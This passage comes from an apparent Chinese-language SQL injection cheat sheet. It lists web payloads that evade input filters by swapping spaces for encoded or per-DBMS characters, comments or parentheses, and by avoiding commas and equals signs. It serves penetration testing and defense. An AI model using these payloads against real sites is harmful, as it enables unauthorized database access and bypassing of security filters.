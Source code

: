   ```sql
  ?id=1%09and%091=1%09--
  ?id=1%0Dand%0D1=1%0D--
  ?id=1%0Cand%0C1=1%0C--
  ?id=1%0Band%0B1=1%0B--
  ?id=1%0Aand%0A1=1%0A--
  ?id=1%A0and%A01=1%A0--
  ```

* 无空格 - 使用注释绕过

  ```sql
  ?id=1/*comment*/and/**/1=1/**/--
  ```

* 无空格 - 使用括号绕过

  ```sql
  ?id=(1)and(1)=(1)--
  ```

* 不同数据库管理系统（DBMS）的空格替代方案

  ```sql
  -- 示例查询，其中空格被替换为ASCII码高于0x80的字符
  ♀SELECT§*⌂FROM☺users♫WHERE♂1☼=¶1‼
  ```

| DBMS       | 十六进制中的ASCII字符                                        |
| ---------- | ------------------------------------------------------------ |
| SQLite3    | 0A, 0D, 0C, 09, 20                                           |
| MySQL 5    | 09, 0A, 0B, 0C, 0D, A0, 20                                   |
| MySQL 3    | 01, 02, 03, 04, 05, 06, 07, 08, 09, 0A, 0B, 0C, 0D, 0E, 0F, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 1A, 1B, 1C, 1D, 1E, 1F, 20, 7F, 80, 81, 88, 8D, 8F, 90, 98, 9D, A0 |
| PostgreSQL | 0A, 0D, 0C, 09, 20                                           |
| Oracle 11g | 00, 0A, 0D, 0C, 09, 20                                       |
| MSSQL      | 01, 02, 03, 04, 05, 06, 07, 08, 09, 0A, 0B, 0C, 0D, 0E, 0F, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 1A, 1B, 1C, 1D, 1E, 1F, 20 |

### 不允许逗号

使用OFFSET、FROM和JOIN绕过

```sql
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```

### 不允许等号

使用LIKE/NOT IN/IN/BETWEEN绕过

```sql
?id=1 and substring(version(),1,1)like(5)
?id=1 and substring(version(),1,1)not in(4,3)
?id=1 and substring(version(),1,1)in(4,3)
?id=1 and substring(version(),1,1) between 3 and 4
```
